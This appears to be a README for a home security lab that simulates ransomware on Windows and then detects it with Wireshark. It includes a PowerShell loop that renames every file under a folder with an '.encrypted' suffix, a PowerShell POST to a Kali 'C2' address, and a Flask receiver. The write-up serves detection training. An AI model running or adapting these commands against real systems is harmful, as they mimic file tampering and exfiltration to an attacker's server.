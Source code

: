 
# 🛠️ Scenario 8 — Ransomware Simulation (File Encryption + Exfiltration)

This lab simulates ransomware behavior on a Windows victim: file encryption followed by ransom note exfiltration over HTTP. The goal is to monitor and detect this activity using tools like **Wireshark**, aligning with real-world MITRE ATT&CK techniques.

---

## 🧪 Red Team Activity

### 🖥️ Simulated File Encryption (PowerShell)
We recursively renamed all files under `C:\Data` to mimic encryption:

```powershell
Get-ChildItem -Path C:\Data -Recurse | ForEach-Object {
    Rename-Item $_.FullName ($_.FullName + ".encrypted")
}
```

---

### 📤 Ransom Note Exfiltration via HTTP

We used `Invoke-WebRequest` to simulate sending a ransom note back to a Command & Control (C2) server:

```powershell
Invoke-WebRequest -Uri http://192.168.2.131:8080/ransom_note.txt -Method POST -Body "Pay up!"
```

📷 **PowerShell Output:**
![PowerShell POST](./screenshots/Screenshot%202025-09-01%20130711.png)

---

## 🖥️ Flask Server on Kali (Simulated C2)

A simple Flask server received the ransom note:

```python
from flask import Flask, request

app = Flask(__name__)

@app.route('/ransom_note.txt', methods=['POST'])
def receive():
    data = request.data.decode('utf-8', errors='ignore')
    print(f"[+] Received ransom note: {data}")
    with open('received_ransom_note.txt', 'a', encoding='utf-8') as f:
        f.write(data + '\n-----\n')
    return 'OK\n', 200

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

📷 **Server Output:**
![POST received](./screenshots/Screenshot%202025-09-01%20130730.png)

---

## 🧠 Blue Team Detection (Wireshark)

Using the following display filter, we captured the POST request to the attacker:

```wireshark
(http.request or tls.handshake.type==1) and !(ssdp)
```

📷 **Wireshark Capture:**
![Wireshark POST](./screenshots/Screenshot%202025-09-01%20130117.png)

This revealed:
- **Source IP:** 192.168.2.129 (Windows victim)
- **Destination IP:** 192.168.2.131:8080 (Kali C2)
- **Protocol:** HTTP POST
- **Payload:** `Pay up!`

---

## 📁 File Received on Attacker

The ransom note was written to the attacker's `received_ransom_note.txt`.

📷 **Ransom Note Contents:**
![Cat ransom note](./screenshots/Screenshot%202025-09-01%20130104.png)

---

## 🧩 MITRE ATT&CK Mapping

| Technique ID | Technique Name                 | Simulation |
|--------------|--------------------------------|------------|
| T1486        | Data Encrypted for Impact      | `.encrypted` suffix added |
| T1041        | Exfiltration Over C2 Channel   | HTTP POST to Flask server |

---

## ✅ Outcome

- Successfully simulated ransomware encryption and exfiltration
- Captured POST in Wireshark
- File was written on attacker's C2 server
- Fully observable & repeatable for detection testing

---

## 📂 Screenshots

Place these files in a `/screenshots/` folder in your repo:

| File Name | Description |
|-----------|-------------|
| `Screenshot 2025-09-01 130711.png` | PowerShell POST |
| `Screenshot 2025-09-01 130730.png` | Flask server receiving POST |
| `Screenshot 2025-09-01 130117.png` | Wireshark capture |
| `Screenshot 2025-09-01 130104.png` | Kali note file |
| `Screenshot 2025-09-01 125532.png` | Flask POST log |
